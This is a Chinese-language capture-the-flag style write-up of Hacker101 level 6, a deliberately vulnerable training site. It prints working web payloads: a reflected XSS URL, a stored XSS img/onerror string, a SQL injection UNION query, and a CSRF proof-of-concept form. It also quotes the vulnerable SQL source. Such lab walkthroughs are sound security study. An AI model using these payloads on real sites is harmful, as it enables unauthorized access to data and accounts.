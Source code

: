 #### [](#Reflected-XSS-2 "Reflected XSS")Reflected XSS

```
https://levels-b.hacker101.com/level6?filter="><script>alert("xss")</script>
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519805957215.png)

#### [](#Stored-XSS-1 "Stored XSS")Stored XSS

主页显示的时候，特殊字符做了转译，但在编译页面没有做转译。first name 做了转译，last name 没有做转译。

```
Doe<img src="><img src=1 onerror=alert("xss")>
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519805239531.png)

### [](#SQL-Injection "SQL Injection")SQL Injection

sqlmap 跑出来的

```
https://levels-b.hacker101.com/level6?filter=j') UNION SELECT DISTINCT database(),version(),user() --+
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519913511837.png)

查看源码，发现需要首先使用 `')` 闭合前面的部分，然后执行 union 查询，最后注释掉后面的查询。起初尝试了各种闭合的手段，但唯独不知道要用有括号的存在。逆向推测发现，当时用该这样理解。由于是模糊查询 且 firstname 和 lastname 匹配一个即可，应当想到次查询并列，可能会用括号将这两个条件包括在一起。

```
dict(filter=filter, students=db.query("SELECT id, lastname, firstname FROM students WHERE sessid='%s' AND (firstname LIKE '%%%%%s%%%%' OR lastname LIKE '%%%%%s%%%%');" % (handler.sessid(), filter, filter)))
```

### [](#CSRF-2 "CSRF")CSRF

```
不同账号获取到的csrf token
644b6355ee205742d9476a7f366a453f
a355c867f8e3b7d5c9cf1bc596e0145b
```

本想使用反射性 XSS 获取 cookie，但设置了 HttpOnly。这条路行不行。

正好在 Edit 页面同时有 csrf token 和 存储型 XSS ，两者结合起来可以获取到 csrf token。但是怎么触发？必须知道 csrf token 才能触发存储型 XSS，也就是说拿不到别人的 token。故此方法也不可行。

后发现直接向 [https://levels-b.hacker101.com/level6/post_add](https://levels-b.hacker101.com/level6/post_add) 提交数据，不带 csrf token 可以添加成功。

```
<!doctype html>
<html>

<head>
<title>Test CSRF </title>
</head>

<body>
<iframe ></iframe>
	<form action="https://levels-b.hacker101.com/level6/post_add" method="POST">
		<input  type="hidden" type="text"  value='first'>
		<input  type="hidden"  value='last'>
		<input type="submit">
	</form>
</iframe>
```